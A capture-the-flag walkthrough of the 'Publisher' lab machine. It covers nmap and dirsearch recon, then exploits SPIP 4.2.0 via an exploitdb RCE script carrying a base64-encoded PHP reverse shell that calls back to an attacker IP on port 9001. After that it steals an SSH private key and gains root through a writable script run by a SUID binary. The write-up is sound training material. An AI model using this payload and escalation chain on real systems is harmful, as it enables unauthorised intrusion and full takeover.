









# Publisher



## Recon

We start with Nmap to know all running  service on the machine

```
nmap -Pn -sC -sV -oN nmap publisher.thm
```

We found two open ports. on `22` we have SSH and on port `80` we have an Apache httpd `2.4.41` web server.

<figure><figcaption></figcaption></figure>

The index page don't have any thing important.

<figure><figcaption></figcaption></figure>

Now we will discover directories with `dirsearch`

```
dirsearch -u http://publisher.thm/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
```

We found `http://publisher.thm/spip`&#x20;

<figure><figcaption></figcaption></figure>

we discover a blog that was created using SPIP. SPIP is a free, open-source content management system (CMS) designed for managing web-based publications and facilitating collaborative work.

<figure><figcaption></figcaption></figure>

Using Wappalyzer extention we found the version of SPIP `4.2.0`

<figure><figcaption></figcaption></figure>

## Shell As www-data

After search We found RCE on exploitdb



To create venv using uv



```
uv venv
source .venv/bin/activate
uv pip install bs4 requests 
uv pip install -U 'urllib3<2'
```

To run the script this is the command. This command create Reverse Shell on server

```
uv run exploit.py --url http://publisher.thm/spip/ --command 'echo "PD9waHAKLy8gcGhwLXJldmVyc2Utc2hlbGwgLSBBIFJldmVyc2UgU2hlbGwgaW1wbGVtZW50YXRpb24gaW4gUEhQLiBDb21tZW50cyBzdHJpcHBlZCB0byBzbGltIGl0IGRvd24uIFJFOiBodHRwczovL3Jhdy5naXRodWJ1c2VyY29udGVudC5jb20vcGVudGVzdG1vbmtleS9waHAtcmV2ZXJzZS1zaGVsbC9tYXN0ZXIvcGhwLXJldmVyc2Utc2hlbGwucGhwCi8vIENvcHlyaWdodCAoQykgMjAwNyBwZW50ZXN0bW9ua2V5QHBlbnRlc3Rtb25rZXkubmV0CgpzZXRfdGltZV9saW1pdCAoMCk7CiRWRVJTSU9OID0gIjEuMCI7CiRpcCA9ICcxOTIuMTY4LjEzNC45NCc7CiRwb3J0ID0gOTAwMTsKJGNodW5rX3NpemUgPSAxNDAwOwokd3JpdGVfYSA9IG51bGw7CiRlcnJvcl9hID0gbnVsbDsKJHNoZWxsID0gJ3VuYW1lIC1hOyB3OyBpZDsgc2ggLWknOwokZGFlbW9uID0gMDsKJGRlYnVnID0gMDsKCmlmIChmdW5jdGlvbl9leGlzdHMoJ3BjbnRsX2ZvcmsnKSkgewogICAgICAgICRwaWQgPSBwY250bF9mb3JrKCk7CgogICAgICAgIGlmICgkcGlkID09IC0xKSB7CiAgICAgICAgICAgICAgICBwcmludGl0KCJFUlJPUjogQ2FuJ3QgZm9yayIpOwogICAgICAgICAgICAgICAgZXhpdCgxKTsKICAgICAgICB9CgogICAgICAgIGlmICgkcGlkKSB7CiAgICAgICAgICAgICAgICBleGl0KDApOyAgLy8gUGFyZW50IGV4aXRzCiAgICAgICAgfQogICAgICAgIGlmIChwb3NpeF9zZXRzaWQoKSA9PSAtMSkgewogICAgICAgICAgICAgICAgcHJpbnRpdCgiRXJyb3I6IENhbid0IHNldHNpZCgpIik7CiAgICAgICAgICAgICAgICBleGl0KDEpOwogICAgICAgIH0KCiAgICAgICAgJGRhZW1vbiA9IDE7Cn0gZWxzZSB7CiAgICAgICAgcHJpbnRpdCgiV0FSTklORzogRmFpbGVkIHRvIGRhZW1vbmlzZS4gIFRoaXMgaXMgcXVpdGUgY29tbW9uIGFuZCBub3QgZmF0YWwuIik7Cn0KCmNoZGlyKCIvIik7Cgp1bWFzaygwKTsKCi8vIE9wZW4gcmV2ZXJzZSBjb25uZWN0aW9uCiRzb2NrID0gZnNvY2tvcGVuKCRpcCwgJHBvcnQsICRlcnJubywgJGVycnN0ciwgMzApOwppZiAoISRzb2NrKSB7CiAgICAgICAgcHJpbnRpdCgiJGVycnN0ciAoJGVycm5vKSIpOwogICAgICAgIGV4aXQoMSk7Cn0KCiRkZXNjcmlwdG9yc3BlYyA9IGFycmF5KAogICAwID0+IGFycmF5KCJwaXBlIiwgInIiKSwgIC8vIHN0ZGluIGlzIGEgcGlwZSB0aGF0IHRoZSBjaGlsZCB3aWxsIHJlYWQgZnJvbQogICAxID0+IGFycmF5KCJwaXBlIiwgInciKSwgIC8vIHN0ZG91dCBpcyBhIHBpcGUgdGhhdCB0aGUgY2hpbGQgd2lsbCB3cml0ZSB0bwogICAyID0+IGFycmF5KCJwaXBlIiwgInciKSAgIC8vIHN0ZGVyciBpcyBhIHBpcGUgdGhhdCB0aGUgY2hpbGQgd2lsbCB3cml0ZSB0bwopOwoKJHByb2Nlc3MgPSBwcm9jX29wZW4oJHNoZWxsLCAkZGVzY3JpcHRvcnNwZWMsICRwaXBlcyk7CgppZiAoIWlzX3Jlc291cmNlKCRwcm9jZXNzKSkgewogICAgICAgIHByaW50aXQoIkVSUk9SOiBDYW4ndCBzcGF3biBzaGVsbCIpOwogICAgICAgIGV4aXQoMSk7Cn0KCnN0cmVhbV9zZXRfYmxvY2tpbmcoJHBpcGVzWzBdLCAwKTsKc3RyZWFtX3NldF9ibG9ja2luZygkcGlwZXNbMV0sIDApOwpzdHJlYW1fc2V0X2Jsb2NraW5nKCRwaXBlc1syXSwgMCk7CnN0cmVhbV9zZXRfYmxvY2tpbmcoJHNvY2ssIDApOwoKcHJpbnRpdCgiU3VjY2Vzc2Z1bGx5IG9wZW5lZCByZXZlcnNlIHNoZWxsIHRvICRpcDokcG9ydCIpOwoKd2hpbGUgKDEpIHsKICAgICAgICBpZiAoZmVvZigkc29jaykpIHsKICAgICAgICAgICAgICAgIHByaW50aXQoIkVSUk9SOiBTaGVsbCBjb25uZWN0aW9uIHRlcm1pbmF0ZWQiKTsKICAgICAgICAgICAgICAgIGJyZWFrOwogICAgICAgIH0KCiAgICAgICAgaWYgKGZlb2YoJHBpcGVzWzFdKSkgewogICAgICAgICAgICAgICAgcHJpbnRpdCgiRVJST1I6IFNoZWxsIHByb2Nlc3MgdGVybWluYXRlZCIpOwogICAgICAgICAgICAgICAgYnJlYWs7CiAgICAgICAgfQoKICAgICAgICAkcmVhZF9hID0gYXJyYXkoJHNvY2ssICRwaXBlc1sxXSwgJHBpcGVzWzJdKTsKICAgICAgICAkbnVtX2NoYW5nZWRfc29ja2V0cyA9IHN0cmVhbV9zZWxlY3QoJHJlYWRfYSwgJHdyaXRlX2EsICRlcnJvcl9hLCBudWxsKTsKCiAgICAgICAgaWYgKGluX2FycmF5KCRzb2NrLCAkcmVhZF9hKSkgewogICAgICAgICAgICAgICAgaWYgKCRkZWJ1ZykgcHJpbnRpdCgiU09DSyBSRUFEIik7CiAgICAgICAgICAgICAgICAkaW5wdXQgPSBmcmVhZCgkc29jaywgJGNodW5rX3NpemUpOwogICAgICAgICAgICAgICAgaWYgKCRkZWJ1ZykgcHJpbnRpdCgiU09DSzogJGlucHV0Iik7CiAgICAgICAgICAgICAgICBmd3JpdGUoJHBpcGVzWzBdLCAkaW5wdXQpOwogICAgICAgIH0KCiAgICAgICAgaWYgKGluX2FycmF5KCRwaXBlc1sxXSwgJHJlYWRfYSkpIHsKICAgICAgICAgICAgICAgIGlmICgkZGVidWcpIHByaW50aXQoIlNURE9VVCBSRUFEIik7CiAgICAgICAgICAgICAgICAkaW5wdXQgPSBmcmVhZCgkcGlwZXNbMV0sICRjaHVua19zaXplKTsKICAgICAgICAgICAgICAgIGlmICgkZGVidWcpIHByaW50aXQoIlNURE9VVDogJGlucHV0Iik7CiAgICAgICAgICAgICAgICBmd3JpdGUoJHNvY2ssICRpbnB1dCk7CiAgICAgICAgfQoKICAgICAgICBpZiAoaW5fYXJyYXkoJHBpcGVzWzJdLCAkcmVhZF9hKSkgewogICAgICAgICAgICAgICAgaWYgKCRkZWJ1ZykgcHJpbnRpdCgiU1RERVJSIFJFQUQiKTsKICAgICAgICAgICAgICAgICRpbnB1dCA9IGZyZWFkKCRwaXBlc1syXSwgJGNodW5rX3NpemUpOwogICAgICAgICAgICAgICAgaWYgKCRkZWJ1ZykgcHJpbnRpdCgiU1RERVJSOiAkaW5wdXQiKTsKICAgICAgICAgICAgICAgIGZ3cml0ZSgkc29jaywgJGlucHV0KTsKICAgICAgICB9Cn0KCmZjbG9zZSgkc29jayk7CmZjbG9zZSgkcGlwZXNbMF0pOwpmY2xvc2UoJHBpcGVzWzFdKTsKZmNsb3NlKCRwaXBlc1syXSk7CnByb2NfY2xvc2UoJHByb2Nlc3MpOwoKZnVuY3Rpb24gcHJpbnRpdCAoJHN0cmluZykgewogICAgICAgIGlmICghJGRhZW1vbikgewogICAgICAgICAgICAgICAgcHJpbnQgIiRzdHJpbmdcbiI7CiAgICAgICAgfQp9Cgo/Pg==" | base64 -d > rev.php'
```

Listen on port 9001 `nc -lnvp 9001` then go to `curl http://publisher.thm/spip/rev.php`

We found in home directory think in it we can read found user.txt and can read it. `cat user.txt`

## Think Shell

In think home directory `.ssh/id_rsa` and we can read it. `cat .ssh/id_rsa` copy it then put it in `id_rsa` on your machine then `chmod 600 id_rsa`

Now we can connect to think user using SSH.

```
ssh -i id_rsa think@publisher.thm
```

```
find / -type f -perm -u=s 2> /dev/null | xargs ls -lah
```

We found `/usr/sbin/run_container`

<figure><figcaption></figcaption></figure>

run `strings /usr/sbin/run_container` we found `/bin/bash`
&#x20;and `/opt/run_container.sh`

<figure><figcaption></figcaption></figure>

run `ls -lah /opt/run_container.sh` to know the permission of it we can read, write and execution

<figure><figcaption></figcaption></figure>

add chmod +s /bin/bash in /opt/run\_container.sh

<figure><figcaption></figcaption></figure>

run /usr/sbin/run\_container this command

<figure><figcaption></figcaption></figure>

run bash -p

now you are act as root
